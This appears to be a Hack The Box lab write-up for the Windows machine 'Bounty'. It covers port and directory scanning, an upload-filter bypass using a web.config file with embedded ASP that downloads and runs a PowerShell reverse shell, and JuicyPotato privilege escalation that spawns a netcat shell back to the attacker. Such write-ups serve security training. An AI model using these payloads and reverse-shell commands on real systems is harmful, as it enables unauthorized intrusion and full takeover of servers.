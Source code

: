 ```yaml
---
permalink: /posts/HTB/Bounty
title:  "HTB Bounty"
author: Luc Kolen
description: "Bounty is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Windows
  - Filter bypass
  - JuicyPotato
---
```

# 10.10.10.93 - Bounty

- [10.10.10.93 - Bounty](#10101093---bounty)
  - [Open ports](#open-ports)
  - [HTTP](#http)
    - [Gobuster](#gobuster)
    - [File upload](#file-upload)
      - [Bypass](#bypass)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Bounty$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.93
```

|Port|Service|Version
|---|---|---|
tcp/80|http|Microsoft IIS httpd 7.5

## HTTP

### Gobuster

The page only shows an image and there is no `robots.txt` we we'll run Gobuster and hope to find some pages.

```bash
luc@kali:~/HTB/Bounty$ gobuster dir -u http://10.10.10.93:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -z -k -l -x "txt,html,php,asp,aspx,jsp"
/aspnet_client (Status: 301) [Size: 159]
/transfer.aspx (Status: 200) [Size: 941]
/uploadedfiles (Status: 301) [Size: 159]
```

### File upload

We can upload files on `/transfer.aspx` and those files will probably end up in the `/uploadedfiles` directory.

First we'll generate a shell to upload with MSFvenom.

```bash
luc@kali:~/HTB/Bounty$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f aspx > shell.aspx
```

![Shell upload](/assets/images/HTB-Bounty/1.a%20Shell%20upload.png)

Trying to upload our shell.aspx results in the message `Invalid File. Please try again`.

#### Bypass

.aspx files aren't allowed, but .config files are allowed. We can abuse this by creating a web.config file that connects back to our machine.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
CreateObject("WScript.Shell").Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')")
%>
```

```bash
luc@kali:~/HTB/Bounty$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
luc@kali:~/HTB/Bounty$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443' >> Invoke-PowerShellTcp.ps1
luc@kali:~/HTB/Bounty$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [12/Jun/2020 16:16:42] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```bash
luc@kali:~/HTB/Bounty$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49158.
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
PS C:\windows\system32\inetsrv> cd \Users\merlin\desktop
PS C:\Users\merlin\desktop> type user.txt
e29ad898************************
```

## Privilege escalation

```bash
PS C:\Users\merlin\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Users\merlin\desktop> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

This machine is vulnerable to JuicyPotato.

```bash
luc@kali:~/HTB/Bounty$ cp /opt/JuicyPotatoBinaries/JuicyPotato.exe .
luc@kali:~/HTB/Bounty$ cp /home/luc/Downloads/netcat-win32-1.12/nc64.exe .
luc@kali:~/HTB/Bounty$ sudo python2 /opt/impacket/examples/smbserver.py share `pwd` -smb2support
```

```bash
PS C:\Users\Merlin\Desktop> net use Z: \\10.10.14.16\share
PS C:\Users\Merlin\Desktop> Z:
PS Z:\> .\JuicyPotato.exe -t * -l 9000 -p nc64.exe -a "-e cmd 10.10.14.16 444"
```

```bash
luc@kali:~/HTB/Bounty$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49541.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\>whoami
nt authority\system
C:\>cd Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
c837f7b6************************
```

## TL;DR

- Bypass upload filter by sending .config file containing VB code
- JuicyPotato
